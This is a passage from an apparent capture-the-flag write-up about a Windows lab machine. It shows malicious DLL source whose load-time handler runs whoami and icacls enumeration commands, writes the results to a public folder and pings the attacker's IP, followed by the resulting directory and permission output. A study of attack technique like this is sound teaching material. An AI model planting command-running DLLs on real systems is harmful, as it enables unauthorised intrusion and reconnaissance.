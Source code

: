 

So that's execution.

### Enumeration Via Dll

To get a feel about where to go next, I'm going to get more information
about the share by having the Dll write data to a file and read it via
the shell as web. I'll generate a new Dll body:



        case DLL_PROCESS_ATTACH:
            system("cmd.exe /c whoami /all > C:\\users\\public\\0xdf.txt");
            system("cmd.exe /c icacls C:\\share >> C:\\users\\public\\0xdf.txt");
            system("cmd.exe /c icacls C:\\share\\* >> C:\\users\\public\\0xdf.txt");
            system("cmd.exe /c icacls C:\\share\\scripts\\* >> C:\\users\\public\\0xdf.txt");
            system("cmd.exe /c ping 10.10.14.6");



I'm leaving the `ping` in there so that I have some indication when it
runs.

I'll upload it, and after a minute or so, I get pings. I'll check with
the shell, and there's a file:



    c:\Users\Public>dir
     Volume in drive C has no label.
     Volume Serial Number is BE61-D5E0

     Directory of c:\Users\Public

    11/10/2022  07:40 PM    <DIR>          .
    02/16/2022  10:00 PM    <DIR>          ..
    11/10/2022  07:40 PM            11,072 0xdf.txt
    09/24/2021  07:27 AM    <DIR>          Documents
    09/15/2018  08:19 AM    <DIR>          Downloads
    09/15/2018  08:19 AM    <DIR>          Music
    09/15/2018  08:19 AM    <DIR>          Pictures
    09/15/2018  08:19 AM    <DIR>          Videos
                   1 File(s)         11,072 bytes
                   7 Dir(s)   9,227,177,984 bytes free 



The file looks to be owned by GinaWild:



    c:\Users\Public>icacls 0xdf.txt
    icacls 0xdf.txt
    0xdf.txt BUILTIN\Administrators:(I)(F)
             WINDCORP\GinaWild:(I)(F)
             NT AUTHORITY\SYSTEM:(I)(F)
             NT AUTHORITY\INTERACTIVE:(I)(M,DC)
             NT AUTHORITY\SERVICE:(I)(M,DC)
             NT AUTHORITY\BATCH:(I)(M,DC)
